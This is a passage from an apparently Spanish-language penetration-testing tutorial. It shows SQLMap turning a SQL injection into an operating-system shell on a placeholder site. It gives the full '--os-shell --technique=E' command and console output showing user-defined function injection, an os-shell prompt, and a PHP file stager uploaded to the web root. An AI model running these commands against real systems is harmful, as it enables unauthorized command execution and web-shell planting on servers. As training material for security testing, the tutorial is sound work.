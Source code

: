 ```r
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

Vemos que SQLMap utilizó la técnica de `UNION` para obtener una shell del sistema operativo, pero eventualmente no nos dio ninguna salida `No output`. Entonces, como ya sabemos que tenemos múltiples tipos de vulnerabilidades de SQL injection, intentemos especificar otra técnica que tenga una mejor oportunidad de darnos salida directa, como `Error-based SQL Injection`, que podemos especificar con `--technique=E`:

```r
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
```